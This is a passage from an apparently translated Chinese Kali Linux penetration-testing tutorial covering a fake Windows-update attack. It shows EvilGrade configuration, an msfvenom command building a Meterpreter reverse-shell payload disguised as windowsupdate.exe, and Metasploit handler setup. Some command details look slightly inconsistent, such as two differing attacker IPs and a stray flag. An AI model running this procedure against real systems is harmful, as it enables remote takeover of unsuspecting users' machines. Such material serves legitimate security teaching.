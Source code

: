 ```
winamp 
winscp 
winupdate 
winzip 
yahoomsn 
- 78 modules available. 
```

安全提示：

这是 Windows 系统上的一个重要攻击向量。与 Linux 不同，Linux 中所有软件包都可以从中央存储库下载并通过 GPG 密钥进行验证，而 Windows 应用程序中的每个应用程序都依赖于其自己的更新程序。这使得这种攻击方式可以用于许多常见应用程序，这些应用程序通常不会被视为攻击向量。这也是为什么在使用本书中所示的 Kali 时，应该从存储库下载应用程序，避免从其他网站下载和安装单独的应用程序。

我们需要为 DNS 服务设置 IP 地址。输入以下命令：

```
show options # Shows EvilGrade's default settings.
set DNSAnswerIp 172.16.24.139 # Set the DNS server's address.     
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/6d5e47f3-c123-4e39-8924-9099fd387cf9.png)

在这次攻击中，我们将使用 Windows 更新服务（wpad），因此要加载 Windows 更新模块，请输入以下内容：

```
evilgrade>configure winupdate 
```

接下来，我们需要我们的有效载荷。要构建有效载荷，我们将使用 MSFvenom。打开一个新的终端窗口，然后从命令行中输入以下代码。`-p`标志是要使用的有效载荷。我们正在使用`windows/meterpreter/reverse_tcp`有效载荷。由于这是一个反向 shell，您必须设置有效载荷在攻击机器上调用的本地主机和本地端口。我们的 Kali 机器在`172.16.42.139`。

我们将端口设置为`445`，这是一个标准的 Windows 端口，并使用`-o`标志将其保存到`/tmp/windowsupdate.exe`：

```
msfvenom -p windows/meterpreter/reverse_tcp -e LHOST=172.16.42.139 LPORT=445 -f exe -o /tmp/windowsupdate.exe 
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/35cce0f2-19da-4421-bb4f-8010723ab26b.png)

我们已将有效载荷保存到`/tmp/windowsupdate.exe`，因此我们需要将代理设置为此路径。

在运行的 EvilGrade 框架窗口中，输入以下内容将有效载荷设置为我们的自定义有效载荷：

```
set agent /tmp/windowsupdate.exe # This sets the agent to the custom agent.
show options # This will show the module's options to check the settings.
start # This will start both the DNS and Web service for the attack.  
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/3f277827-fadf-48a1-a3ac-cf3f39bbcc19.png)

现在，为了允许连接，我们需要设置一个 multi/handler 来接受系统被入侵后的入站连接。从我们正在运行 BadTunnel 的 Metasploit 终端开始，我们将启动`multi/handler`并在后台运行。在 Metasploit 中，运行以下命令：

```
use exploit/multi/handler
set LHOST 172.16.42.139 # Kali's IP address.
set LPORT 445 # Set the listening port. The payload is set to 445.
run -j # Start the handler in the background.  
```
